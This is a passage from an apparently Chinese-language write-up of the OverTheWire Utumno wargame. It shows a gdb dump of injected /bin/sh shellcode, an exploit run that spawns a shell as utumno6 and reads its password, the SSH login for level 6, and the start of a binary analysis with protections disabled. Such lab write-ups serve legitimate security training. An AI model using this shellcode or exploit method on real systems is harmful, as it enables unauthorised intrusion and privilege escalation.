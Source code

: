 ```bash
0xffffdfb4:	0x90909090	0x50c03190	0x732f2f68	0x622f6868
0xffffdfc4:	0xe3896e69	0xd231c931	0x042c0fb0	0x610080cd
0xffffdfd4:	0x62616161	0x63626262	0x41636363	0x42414141
0xffffdfe4:	0x00424242	0x7574752f	0x2f6f6e6d	0x6d757475
0xffffdff4:	0x00356f6e	0x00000000	0x00000000	Cannot access memory at address 0xffffe000
(gdb) 
...


```

就选`0xffffdf84`地址吧。改完之后编译再执行。

```bash
utumno5@utumno:/tmp/eag$ gcc -m32 setup.c -o setup
utumno5@utumno:/tmp/eag$ ./setup 
Here we go - aaaabbbbccccAAAA����
$ whoami
utumno6
$  cat /etc/utumno_pass/utumno6
eiluquieth
$ 

```

## Utumno 06

**SSH :** ssh utumno6@utumno.labs.overthewire.org -p 2227

**Pass :** eiluquieth

依旧选择dump下来分析。

```bash
$ ./crawl.sh 6 eiluquieth
sshpass -p eiluquieth scp -P 2227 utumno6@utumno.labs.overthewire.org:/utumno/utumno6  .
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

[*] '/home/z1933/workplace/vbshare/ctf/utumno6'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

IDA反编译结果(main::a结构已添加)：

```cpp
struct main::a{
    char *p;
    table[10];
}
int __cdecl main(int argc, const char **argv, const char **envp)
{
  main::a b; // [esp+0h] [ebp-34h]
  int pos; // [esp+2Ch] [ebp-8h]
  int val; // [esp+30h] [ebp-4h]

  if ( argc <= 2 )
  {
    puts("Missing args");
    exit(1);
  }
  b.p = (char *)malloc(32u);
```